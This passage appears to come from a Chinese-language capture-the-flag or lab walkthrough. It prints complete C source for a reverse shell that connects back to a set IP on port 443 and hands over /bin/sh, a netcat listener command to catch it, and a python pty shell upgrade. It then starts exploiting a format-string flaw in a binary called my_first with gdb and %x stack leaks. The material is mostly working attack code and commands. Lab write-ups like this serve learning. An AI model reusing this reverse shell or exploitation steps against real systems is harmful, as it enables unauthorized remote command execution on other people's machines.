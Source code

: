--------------
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void)
{
 int i; // used for dup2 later
 int sockfd; // socket file descriptor
 socklen_t socklen; // socket-length for new connections

 struct sockaddr_in srv_addr; // client address

 srv_addr.sin_family = AF_INET; // server socket type address family = internet protocol address
 srv_addr.sin_port = htons( 443 ); // connect-back port, converted to network byte order
 srv_addr.sin_addr.s_addr = inet_addr("192.168.253.138"); // connect-back ip , converted to network byte order

 // create new TCP socket
 sockfd = socket( AF_INET, SOCK_STREAM, IPPROTO_IP );

 // connect socket
 connect(sockfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr));

 // dup2-loop to redirect stdin(0), stdout(1) and stderr(2)
 for(i = 0; i <= 2; i++)
  dup2(sockfd, i);

 // magic
 execve( "/bin/sh", NULL, NULL );
}
--------------
nc -vlp 443   ---成功获得反弹shell

python -c 'import pty; pty.spawn("/bin/bash")'

或者：https://github.com/c610/tmp/blob/master/bindshell.c


--------------------------------------------
--------------------------------------------
5、格式字符串缓冲区溢出  my_first

在/home/mike当前目录下发现my_first红头文件！

1）测试是否存在缓冲区溢出
./my_first $(python -c 'print "A"*2000')   ---发现无法将其崩溃！！！
该程序存在需要执行数值判断。测试中1+2返回的是总和！GDB分析看下main!

gdb my_first
disas main
发现存在：0x080484c5 <+42>:	call   0x8048340 <printf@plt>

使用了printf函数，测试是否存在格式字符串缓冲区溢出！
%x是printf支持的格式字符串！用来显示关联十六进制输入数值！
从堆栈中获取一个值：
Enter second number: %x
Error details: fff8006c
在第三位输入地存在%x缓冲区溢出！
